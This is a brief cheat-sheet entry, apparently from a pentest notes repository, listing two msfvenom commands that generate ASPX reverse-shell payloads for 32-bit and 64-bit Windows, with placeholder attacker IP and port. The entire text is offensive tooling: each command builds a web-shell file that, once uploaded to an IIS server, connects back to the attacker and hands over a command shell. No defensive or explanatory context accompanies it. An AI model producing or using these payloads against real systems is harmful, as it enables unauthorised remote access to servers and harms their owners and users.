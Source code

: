 # ASPX

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx`

2. x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86-64.aspx`